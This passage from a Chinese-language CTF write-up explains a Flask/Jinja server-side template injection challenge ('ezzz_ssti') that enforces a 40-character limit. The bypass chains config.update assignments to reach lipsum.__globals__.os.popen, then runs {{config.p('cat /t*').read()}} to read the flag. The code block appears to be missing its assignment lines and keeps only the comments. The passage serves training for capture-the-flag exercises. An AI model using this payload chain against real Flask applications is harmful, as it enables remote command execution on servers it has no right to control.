将静态文件的folder改成根目录，那么我们访问/static/其实里面显示的就是根目录下的内容

所以我们访问/static/flag就可以拿到flag了

# ezzz_ssti

## #SSTI的长度绕过

传入?user={{8*8}}就返回了



但是fuzz了一下发现没有过滤，只是限制了长度，测了一下知道长度限制为40

参考师傅的文章：https://blog.csdn.net/weixin_43995419/article/details/126811287

简单来说就是Flask 框架中存在`config`全局对象，用来保存配置信息。`config` 对象实质上是一个字典的子类，可以像字典一样操作，而`update`方法又可以更新python中的字典。我们就可以利用 Jinja 模板的 `set` 语句配合字典的 `update()` 方法来更新 `config` 全局对象，将字典中的`lipsum.__globals__`更新为`g`，就可以达到在 `config` 全局对象中分段保存 `Payload`，从而绕过长度限制。

```
   //此时字典中a的值被更新为config全局对象中的update方法
   //f的值被更新为lipsum.__globals__
          //o的值被更新为lipsum.__globals__.os
       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("cat /t*").read()}}     
```


